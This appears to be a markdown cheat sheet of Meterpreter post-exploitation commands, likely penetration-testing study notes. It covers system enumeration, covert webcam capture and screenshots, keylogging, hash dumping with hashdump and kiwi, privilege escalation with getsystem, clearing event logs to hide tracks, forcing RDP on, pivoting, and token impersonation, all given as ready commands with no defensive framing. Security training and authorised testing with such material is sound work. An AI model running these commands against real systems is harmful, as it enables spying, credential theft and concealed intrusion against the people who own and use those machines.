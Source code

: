 ```yaml
---
title: Meterpreter
---
```


Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

1. <u>Basic System Information</u>

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

2. <u>Upload & Download File</u>

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

3. <u>Capture Image</u>

````bash
webcam_list
webcam_snap
screenshot
````

4. <u>Keylogger</u>

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

5. <u>Operations on Target</u>

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

6. <u>Run Exploits</u>

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

7. <u>Session Management</u>

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````